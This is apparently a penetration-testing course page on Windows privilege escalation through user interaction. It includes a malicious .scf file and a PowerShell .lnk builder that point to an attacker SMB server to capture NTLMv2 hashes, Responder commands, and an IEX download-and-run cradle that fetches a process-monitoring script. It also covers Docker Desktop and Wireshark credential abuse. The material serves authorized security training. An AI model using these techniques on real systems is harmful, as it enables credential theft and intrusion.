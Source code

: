 Users are sometimes the weakest link in an organization. An overloaded employee working quickly may not notice something is "off" on their machine when browsing a shared drive, clicking on a link, or running a file.

Once we have exhausted all options, we can look at specific techniques to steal credentials from an unsuspecting user by sniffing their network traffic/local commands or attacking a known vulnerable service requiring user interaction. One of my favorite techniques is placing malicious files around heavily accessed file shares in an attempt to retrieve user password hashes to crack offline later.

### Placing Malicious Files on Shares
A Shell Command File (SCF) is used by Windows Explorer to move up and down directories, show the Desktop, etc. An SCF file can be manipulated to have the icon file location point to a specific UNC path and have Windows Explorer start an SMB session when the folder where the .scf file resides is accessed. If we change the IconFile to an SMB server that we control and run a tool such as [Responder](https://github.com/lgandx/Responder), [Inveigh](https://github.com/Kevin-Robertson/Inveigh), or [InveighZero](https://github.com/Kevin-Robertson/InveighZero), we can often capture NTLMv2 password hashes for any users who browse the share. This can be particularly useful if we gain write access to a file share that looks to be heavily used or even a directory on a user's workstation.
##### Malicious SCF File
In this example, let's create the following file and name it something like `@Inventory.scf` (similar to another file in the directory, so it does not appear out of place). We put an `@` at the start of the file name to appear at the top of the directory to ensure it is seen and executed by Windows Explorer as soon as the user accesses the share. Here we put in our `tun0` IP address and any fake share name and .ico file name.

```powershell
[Shell]
Command=2
IconFile=\\10.10.14.18\share\legit.ico
[Taskbar]
Command=ToggleDesktop
```

```bash
sudo responder -wrf -v -I tun0
```

##### Capturing Hashes with a Malicious .lnk File
Using SCFs no longer works on Server 2019 hosts, but we can achieve the same effect using a malicious [.lnk](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-shllink/16cb4ca1-9339-4d0c-a68d-bf1d6cc0f943) file. We can use various tools to generate a malicious .lnk file, such as [Lnkbomb](https://github.com/dievus/lnkbomb), as it is not as straightforward as creating a malicious .scf file. We can also make one using a few lines of PowerShell:

```powershell
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("C:\legit.lnk")
$lnk.TargetPath = "\\<attackerIP>\@pwn.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Browsing to the directory where this file is saved will trigger an auth request."
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```

#### Monitoring for Process Command Lines

When getting a shell as a user, there may be scheduled tasks or other processes being executed which pass credentials on the command line. We can look for process command lines using something like this script below. It captures process command lines every two seconds and compares the current state with the previous state, outputting any differences.

```powershell
while($true)
{

  $process = Get-WmiObject Win32_Process | Select-Object CommandLine
  Start-Sleep 1
  $process2 = Get-WmiObject Win32_Process | Select-Object CommandLine
  Compare-Object -ReferenceObject $process -DifferenceObject $process2

}
```

##### Running Monitor Script on Target Host

We can host the script on our attack machine and execute it on the target host as follows.

```powershell
PS C:\htb> IEX (iwr 'http://10.10.10.205/procmon.ps1') 

InputObject                                           SideIndicator
-----------                                           -------------
@{CommandLine=C:\Windows\system32\DllHost.exe /Processid:{AB8902B4-09CA-4BB6-B78D-A8F59079A8D5}} =>      
@{CommandLine=“C:\Windows\system32\cmd.exe” }                          =>      
@{CommandLine=\??\C:\Windows\system32\conhost.exe 0x4}                      =>      
@{CommandLine=net use T: \\sql02\backups /user:inlanefreight\sqlsvc My4dm1nP@s5w0Rd}       =>       
@{CommandLine=“C:\Windows\system32\backgroundTaskHost.exe” -ServerName:CortanaUI.AppXy7vb4pc2... <=
```

This is successful and reveals the password for the `sqlsvc` domain user, which we could then possibly use to gain access to the SQL02 host or potentially find sensitive data such as database credentials on the `backups` share.

### Vulnerable Services

We may also encounter situations where we land on a host running a vulnerable application that can be used to elevate privileges through user interaction. [CVE-2019–15752](https://medium.com/@morgan.henry.roman/elevation-of-privilege-in-docker-for-windows-2fd8450b478e) is a great example of this. This was a vulnerability in Docker Desktop Community Edition before 2.1.0.1. When this particular version of Docker starts, it looks for several different files, including `docker-credential-wincred.exe`, `docker-credential-wincred.bat`, etc., which do not exist with a Docker installation. The program looks for these files in the `C:\PROGRAMDATA\DockerDesktop\version-bin\`. This directory was misconfigured to allow full write access to the `BUILTIN\Users` group, meaning that any authenticated user on the system could write a file into it (such as a malicious executable).

Any executable placed in that directory would run when a) the Docker application starts and b) when a user authenticates using the command `docker login`. While a bit older, it is not outside the realm of possibility to encounter a developer's workstation running this version of Docker Desktop, hence why it is always important to thoroughly enumerate installed software

---
### Traffic Capture

If `Wireshark` is installed, unprivileged users may be able to capture network traffic, as the option to restrict Npcap driver access to Administrators only is not enabled by default.

![image](https://academy.hackthebox.com/storage/modules/67/pcap.png)

Here we can see a rough example of capturing cleartext FTP credentials entered by another user while signed into the same box. While not highly likely, if `Wireshark` is installed on a box that we land on, it is worth attempting a traffic capture to see what we can pick up.

![image](https://academy.hackthebox.com/storage/modules/67/ftp.png)

Also, suppose our client positions us on an attack machine within the environment. In that case, it is worth running `tcpdump` or `Wireshark` for a while to see what types of traffic are being passed over the wire and if we can see anything interesting. The tool [net-creds](https://github.com/DanMcInerney/net-creds) can be run from our attack box to sniff passwords and hashes from a live interface or a pcap file. It is worth letting this tool run in the background during an assessment or running it against a pcap to see if we can extract any credentials useful for privilege escalation or lateral movement.